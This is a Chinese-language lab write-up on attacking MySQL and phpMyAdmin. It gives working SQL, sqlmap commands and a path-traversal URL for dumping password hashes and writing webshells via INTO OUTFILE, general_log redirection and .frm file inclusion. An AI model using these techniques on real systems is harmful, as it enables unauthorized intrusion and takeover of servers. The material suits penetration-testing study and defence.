## 实验环境

> 攻击机: kali2020 192.168.182.137
>
> 靶机：win7 192.168.182.128

# 权限获取

## 账号密码登录

### 远程连接



可以通过暴力破解,或者知道用户名密码,但是这里没有连上,因为默认情况下mysql账号是不允许远程登录的,

### **客户端登录**

通过phpMyadmin登录,即使没有开启远程登录也可以使用phpMyadmin登录



### 密码获取

1.暴力破解

2.读取网站配置文件拿到数据库账号密码

关键字：config conn data sql inc database等

3.Hash获取

MySQL <= 5.6 版本
`select host, user, password from mysql.user;`

MySQL >= 5.7 版本
`select host,user,authentication_string from mysql.user;`

查看密码文件,User.MYD文件一般在mysql数据库文件夹下:https://www.cnblogs.com/hack404/p/10790529.html

## 存在注入

若网站存在sql注入，则可以通过sqlmap的`--sql-shell`参数来获得数据库操作权限

`sqlmap -u "192.168.182.128/sqli-labs/Less-1/?id=1" --sql-shell`  

## mysql漏洞

[CVE-2012-2122](https://www.cnblogs.com/zhuxr/p/9553541.html) 等这类漏洞直接拿下 MySQL 权限

# getshell

一般都是利用sql权限来提升到www-data权限

这里分享一篇文章,是根据mysql注入点提权的

> https://www.cnblogs.com/zzjdbk/p/12992288.html

## 注入:

直接通过写入文件来getshell，需要满足以下条件

> - 知道网站绝对路径
> - 没有运行在 `secure-file-priv` 模式下
> - 对 `Web` 目录有读写权限
> - 高权限数据库用户

在mysql5.7的版本下,secure-file-priv默认为NULL,不允许导入和导出

**获取绝对路径的方法**

```
1.phpinfo()
2.出错页面
3.load_file读取网站配置文件 如index.php /etc/passwd
4.查看数据库表内容获取 有一些cms会保存网站配置文件 或者路径
5.进入后台
6.百度出错信息 zoomeye shadon 搜索error warning
7. @@datadir参数看mysql路径 反猜绝对路径
```


这部分懒得写了,就直接copy cyzcc师傅的了

## into oufile 写 shell

直接通过写入文件来getshell，需要满足以下条件

> - 知道网站绝对路径
> - 没有运行在 `secure-file-priv` 模式下
> - 对 `Web` 目录有读写权限
> - 高权限数据库用户

**获取绝对路径的方法**

```
1.phpinfo()
2.出错页面
3.load_file读取网站配置文件 如index.php /etc/passwd
4.查看数据库表内容获取 有一些cms会保存网站配置文件 或者路径
5.进入后台
6.百度出错信息 zoomeye shadon 搜索error warning
7. @@datadir参数看mysql路径 反猜绝对路径
```

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607684459202.png)

还可以查询`select @@datadir`参数得到mysql路径从而猜测得到网站路径
[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607684566107.png)

这里一般猜测网站路径为

> C:\phpStudy\PHPTutorial\www
> C:\phpStudy\PHPTutorial\WWW
> C:\phpStudy\PHPTutorial\html
> C:\phpStudy\PHPTutorial\wwwroot
> ……….

**查看mysql安全设置**

```
show global variables like '%secure_file_priv%';
```

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607683992194.png)

```
secure_file_priv 可以设置三个参数：空，NULL，filepath
```

**参数说明：**

> - 空值：设置为空时，没有进行安全配置，那么这模式下应该就可以导出 webshell
> - NULL：设置本参数值时，数据库不能进行导入导出
> - filepath：filepath 是导入导出的文件路径，设置这个值，那么只能导出文件到 filepath 的路径。

这里需要满足 `secure_file_priv` 为空或者为 `web` 路径才可以进行读写操作，如果不为空可在 `mysql.ini` 配置文件中加上 `secure_file_priv =` 即可

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607684276108.png)

满足以上条件便可使用sql语句来写shell

- 直接在漏洞点使用联合查询写入：

> ```
> ?id=1' union select 1,'<?php phpinfo();?>',3 into outfile 'C:/phpStudy/PHPTutorial/WWW/cyz.php'--+
> ```

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607685654939.png)

- 使用sqlmap写shell
  `sqlmap -u "http://192.168.43.130/sqli-labs/Less-1/?id=1" --file-write="cyz.php" --file-dest="C:/phpStudy/PHPTutorial/WWW/sqlmap_cyz.php"`
  [](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607685936871.png)
  cyz.php为本地文件
- 使用sqlmap的`--os-shell`写入shell

## phpmyadmin使用日志写入shell

使用账号密码登录后，除了使用上面的SQL语句来写入shell外，还可以使用其他方法来getshell如phpmyadmin中的文件包含漏洞、命令执行漏洞等来getshell

- **使用 `log` 写入 `Shell`**

**满足条件：**

> - 数据库为 `root` 权限
> - `Web` 目录可写
> - 知道 `Web` 的物理绝对路径

首先开启 `mysql` 的日志记录模式

首先查看一下日志的配置：

```
show variables like '%general%';
```

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688011422.png)

打开日志记录

```
set global general_log='on';
```

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688092030.png)

然后改变日志的路径

```
set global general_log_file='C:\\phpStudy\\PHPTutorial\\WWW\\mysql_shell.php';
```

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688384591.png)

之后随便执行一段php代码然后访问mysql_shell.php即可getshell

```
SELECT "<?php phpinfo();?>";
```

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688523051.png)

## PHPMyAdmin 包含数据库文件 getshell

首先查询数据库文件的存储地址:

```
show global variables like "%datadir%";
```

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688731958.png)

其中的`.frm` 即为我们的数据库文件
[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607689081449.png)

在 `mysql_shell` 库中新建个 `mysql_shell` 表，然后字段写上我们的一句话马

[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688884106.png)

可以看到一句话木马已经写入.frm文件
[](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607689127047.png)

之后使用`PHPMyAdmin4.8.x` 版本的文件包含漏洞即可进行利用

```
/index.php?target=db_sql.php%3f/../../../../../../../../../../../../../../C:/phpStudy/PHPTutorial/MySQL/data/test/mysql_shell.frm
```

由于没有该版本，就没有接着复现了

## 其他phpmyadmin版本的漏洞

> phpmyadmin命令执行漏洞:
> [CVE-2016-5734](http://cyzcc.vip/2020/08/12/CVE-2016-5734/#more)
>
> PHPMyaAdmin 本地 `SESSION` 包含 `getshell`:
> [CVE-2018-12613](http://cyzcc.vip/2020/08/13/CVE-2018-12613/#more)

